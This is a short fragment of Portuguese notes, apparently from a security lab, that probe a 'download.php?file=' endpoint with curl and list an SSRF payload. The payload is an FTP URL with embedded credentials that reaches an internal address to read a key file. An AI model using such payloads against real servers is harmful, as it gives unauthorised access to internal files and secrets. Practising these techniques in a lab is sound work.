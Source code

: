 ### Baixar apenas o cabeçalho da imagem:
```sh
curl -H "Range: bytes=0-1000" "http://storage.vuln.lab/download.php?file=image-309kb.jpg" --output downloaded.jpg
curl -I HEAD "http://storage.vuln.lab/download.php?file=fake-image.jpg"
```

## SSRF
```
ftp://appsec:4pp2Ecs077@172.22.22.60/home/appsec/key.txt
```